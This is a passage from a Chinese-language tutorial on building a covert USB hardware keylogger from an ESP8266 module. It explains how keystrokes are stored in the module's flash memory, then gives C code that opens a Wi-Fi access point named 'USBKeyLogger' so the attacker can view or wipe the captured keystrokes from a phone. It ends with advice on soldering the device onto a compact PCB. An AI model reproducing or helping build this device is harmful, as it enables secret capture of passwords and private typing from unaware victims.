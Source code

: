 SPIFSS(Serial Peripheral Interface Flash File System)是 ESP8266 模块自带的一个闪存，它的数据在断电后也不会丢失。

ESP8266-07S 模块中，这个闪存的大小为 4M，足够我们保存相当多的键盘记录了。*一个按键按下的记录信息大约要花32字节去存的话，4兆大约可以存按下键盘13万次的内容。*

最后是 WiFi 部分：创建一个 Wi-Fi 网络，攻击者连接上以后就可以查看或清空键盘记录。部分核心代码如下：
```C
#include <ESP8266WiFi.h>
#include <ESPAsyncTCP.h>
#include <ESPAsyncWebServer.h>

const char *ssid = "USBKeyLogger";   // 创建的接入点的名称
const char *password = "12345678";   // 接入点的密码

AsyncWebServer server(80);           // 在 80 端口开启服务（ip 为 192.168.4.1）

void setup() {

  WiFi.mode(WIFI_STA);               // Wi-Fi为接入点模式
  WiFi.softAP(ssid,password);        // 开启Wi-Fi

  server.on("/", HTTP_GET, [](AsyncWebServerRequest *request){         // 当访问根目录时显示记录内容
    request->send(SPIFFS, "/keyLog.txt", "text/plain");
  });

  server.on("/clear", HTTP_GET, [](AsyncWebServerRequest *request){    // 当访问“/claer”时清空已有记录(手机浏览器末尾写/clear即可清除先前的内容)
    logFile.close();
    logFile = SPIFFS.open("/keyLog.txt", "w");
    request->send(200, "text/plain", "Log File Cleared!");
  });
  server.begin();                                                      // 开启服务器
}
```

## 实物制作

为了更好的将电路集成，最好是将这些模块焊接在一块定制化的 PCB 电路板上(Printed Circuit Board，印制电路板，即电子元器件连接起来的支撑体)

现在大多数成熟的电子产品都是集成焊接在 PCB 板上的。因为 PCB 板可以更好的集成电子元件，使产品体积、结构上更优异，可以更稳定的运行。(手机，导航仪，电脑主板都是这样的)

推荐一个绘图工具：Altium designer
- 下载地址：https://www.altium.com.cn/ (好用，没广告，但是收费)

如果用普通的覆铜板也不是不可以，就是体积大，不美观。
